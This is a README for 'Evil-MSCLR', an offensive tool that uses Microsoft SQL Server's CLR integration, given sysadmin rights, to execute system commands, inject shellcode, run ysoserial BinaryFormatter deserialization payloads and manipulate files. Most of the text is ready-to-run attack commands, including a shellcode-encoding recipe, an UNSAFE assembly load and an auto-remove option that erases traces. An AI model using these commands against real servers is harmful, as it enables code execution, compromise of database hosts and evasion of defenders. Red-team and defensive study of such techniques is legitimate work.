





# Evil-MSCLR

A tool for red teams to use the CLR feature in MSSQL to execute commands and load shellcode.

[](assets/Cobalt.mp4)

> To use this tool, you must have access to a user with the sysadmin or serveradmin role.

* [Build](#build)
* [Usage](#Usage)
    * [LoadAssembly](#loadassembly)
    * [AutoRemove](#autoremove)
    * [Example](#example)
        * [ShellCode](#shellcode)
        * [BinaryFormatter](#binaryformatter)

## Usage

```bash
.\Evil-MSCLR.exe --help
Usage of C:\Evil-MSCLR.exe:
  -autoremove
        Automatic deletion of loaded assembly and created procedures
  -config string
        Config file path (default "config.json")
  -function string
        Function used in module loaded in MSSQL CLR
  -argument string
        Argument for the function used
  -file string
        Reading argument value from file
  -functions
        Description of functions available in the module loaded in MSSQL
  -loadassembly
        Loading Assembly into MSSQL
```

### LoadAssembly

```powershell
Evil-MSCLR.exe -loadassembly
```



### AutoRemove

Automatic deletion of loaded assembly and created procedures.

```powershell
Evil-MSCLR.exe -loadassembly -function Command -argument whoami -autoremove
```



### Function

For a description of the functions available in the module loaded in MSSQL, use the following command:
```bash
.\Evil-MSCLR.exe -functions
Name: BinaryFormatter
Description: This function is used to execute serialized payloads.
Example: ysoserial.exe -f BinaryFormatter -g ResourceSet -o base64 -c 'cmd.exe /c echo hello > C:\msg.txt'
 Evil-MSCLR.exe -loadassembly -function BinaryFormatter -argument 'base64 Payload'
------------------------
Name: ShellCode
Description: This function is used to execute shellcode, may be unsafe and may cause MSSQL service to crash.
Example: Evil-MSCLR.exe -loadassembly -function ShellCode -argument 'base64 shellcode'
------------------------
Name: Command
Description: This function is used to execute cmd commands, using this function will create a cmd process.
Example: Evil-MSCLR.exe -loadassembly -function Command -argument 'whoami'
------------------------
Name: FileSystem
Description: This function is used to create, read, write, and delete files.
Example: Evil-MSCLR.exe -loadassembly -function FileSystem -argument 'read,c:\Windows\System32\drivers\etc\hosts'
```

#### Example

```powershell
Evil-MSCLR.exe -loadassembly -function Command -argument whoami
```



#### ShellCode

```powershell
Set-Content -Path "payload.b64.txt" -Value ([System.Convert]::ToBase64String(([System.IO.File]::ReadAllBytes("payload_x64.bin"))))

Evil-MSCLR.exe -loadassembly -function ShellCode -file payload.b64.txt
```


#### BinaryFormatter

```powershell
Evil-MSCLR.exe -loadassembly -function BinaryFormatter -argument "AAEAAAD/////AQAAAAAAAAAEAQA..." -autoremove
```



## Build

Install Visual Studio `Data Storage and Processing` workload.

* Compile the CLR module located in the [StoredProcedure](StoredProcedure/) folder.
* In the `StoredProcedure\StoredProcedure\bin\Release` path, a file named `StoredProcedure_Create.sql` is generated, which contains the SQL code for loading the module.
* In the `"CREATE ASSEMBLY"` section, put the value in Hex in the `assembly field` in the `"config.json"` file.

For example:

`StoredProcedure_Create.sql`

```sql
CREATE ASSEMBLY [StoredProcedure]
    AUTHORIZATION [dbo]
    FROM 0x4D5A90000300000004000000FFFF00...
    WITH PERMISSION_SET = UNSAFE;
```

`config.json`

```json
{
    "assemblyname":"StoredProcedure",
    "assembly":"0x4D5A90000300000004000000FFFF00..."
}
```
